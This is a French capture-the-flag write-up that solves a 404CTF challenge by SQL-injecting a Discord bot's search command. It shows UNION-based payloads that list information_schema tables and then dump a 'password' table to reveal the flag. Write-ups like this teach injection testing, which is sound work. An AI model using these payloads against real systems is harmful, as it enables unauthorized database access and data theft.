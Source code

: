 ## MISC / Pierre Papier Hallebarde

<p align="center">
  <img src="img/consignes.png" />
</p>


### Look around

Un challenge amusant contre un bot discord qui apparemment interroge pour nous une base de données.


Assez vite nous découvrons :

```bash
Commandes disponibles :
!chercher argument -> rechercher argument dans la base de données
!authentification motdepasse -> authentifiez vous pour accéder au mode privilégié
!drapeau -> obtenez un mystérieux drapeau
!debug -> debug command
```

### Exploit

Je vais passer tous les tests pour cerner le SGBD en question, mais `_` et `%` retourne des résultats, nous devons dons être dans une requête du genre :

`SELECT * FROM table WHERE xxx LIKE %user_input%`

Dans un premier temps on récupère des informations sur la tables, puis sur le premier flag qui nous est demandé :

```bash
!chercher _%" UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables#

>ALL_PLUGINS,APPLICABLE_ROLES,CHARACTER_SETS,CHECK_CONSTRAINTS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMN_PRIVILEGES,ENABLED_ROLES,ENGINES,EVENTS,FILES,GLOBAL_STATUS,GLOBAL_VARIABLES,KEYWORDS,KEY_CACHES,KEY_COLUMN_USAGE,OPTIMIZER_TRACE,PARAMETERS,PARTITIONS,PLUGINS,PROCESSLIST,PROFILING,REFERENTIAL_CONSTRAINTS,ROUTINES,SCHEMATA,SCHEMA_PRIVILEGES,SESSION_STATUS,SESSION_VARIABLES,STATISTICS,SQL_FUNCTIONS,SYSTEM_VARIABLES,TABLES,TABLESPACES,TABLE_CONSTRAINTS,TABLE_PRIVILEGES,TRIGGERS,USER_PRIVILEGES,VIEWS,CLIENT_STATISTICS,INDEX_STATISTICS,INNODB_FT_CONFIG,GEOMETRY_COLUMNS,INNODB_SYS_TABLESTATS,SPATIAL_REF_SYS,USER_STATISTICS,INNODB_TRX,INNODB_CMP_PER_INDEX,INNODB_METRICS,INNODB_FT_DELETED,INNODB_CMP,THREAD_POOL_WAITS,INNODB_CMP_RESET,THREAD_POOL_QUEUES,TABLE_STATISTICS,INNODB_SYS_FIELDS,INNODB_BUFFER_PAGE_LRU,INNODB_LOCKS,INNODB_FT_INDEX_TABLE,INNODB_CMPMEM,THREAD_POOL_GROUPS,INNODB_CMP_PER_INDEX_RESET,INNODB_SYS_FOREIGN_COLS,INNODB_FT_INDEX_CACHE,INNODB_BUFFER_POOL_STATS,INNODB_FT_BEING_DELETED,INNODB_SYS_FOREIGN,INNODB_CMPMEM_RESET,INNODB_FT_DEFAULT_STOPWORD,INNODB_SYS_TABLES,INNODB_SYS_COLUMNS,INNODB_SYS_TABLESPACES,INNODB_SYS_INDEXES,INNODB_BUFFER_PAGE,INNODB_SYS_VIRTUAL,user_variables,INNODB_TABLESPACES_ENCRYPTION,INNODB_LOCK_WAITS,THREAD_POOL_STATS,Privileged_users,data,password



!chercher _%" UNION SELECT * FROM password#
>404CTF{D1sc0rd_&_injection_SQL}
```
